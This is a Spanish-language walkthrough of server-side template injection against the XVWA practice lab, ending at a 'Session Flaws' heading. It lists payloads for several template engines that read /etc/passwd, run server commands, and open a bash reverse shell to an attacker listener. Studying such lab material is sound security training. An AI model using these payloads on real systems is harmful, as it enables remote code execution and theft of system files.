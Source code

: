 ```
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
-------------------------------------------------------------------
Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
-------------------------------------------------------------------
Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------
```
mayor información de valores que generan inyección puede ingresar a esta ruta [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Volvamos a XVWA y ahora en la caja de texto vamos a ingresar lo siguiente

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```
![image](https://user-images.githubusercontent.com/50930193/171770500-3f90b86a-c99a-4bab-bff9-a6513f210463.png)

Allí notamos que se puede ejecutar un comando en el servidor, ahora leamos el archivo de usuarios
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}
```
Nos saldra error pero si lo codificamos veremos que el error no se presenta
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat+/etc/passwd")}}
```
![image](https://user-images.githubusercontent.com/50930193/171771057-2142e593-1498-4102-99a2-8b26801ad30e.png)

Intentemos con una shell reversa en bash
```
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
Codificamos el URL, abrimos un netcat y ejecutamos y obtenemos una shell
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("bash+-c+'exec+bash+-i+%26>/dev/tcp/192.168.109.128/1234+<%261'")}}
```
![image](https://user-images.githubusercontent.com/50930193/171772173-3948f444-e88b-4712-8ce4-847508c5add6.png)

# Session Flaws 
-------------------------------------------------------------------
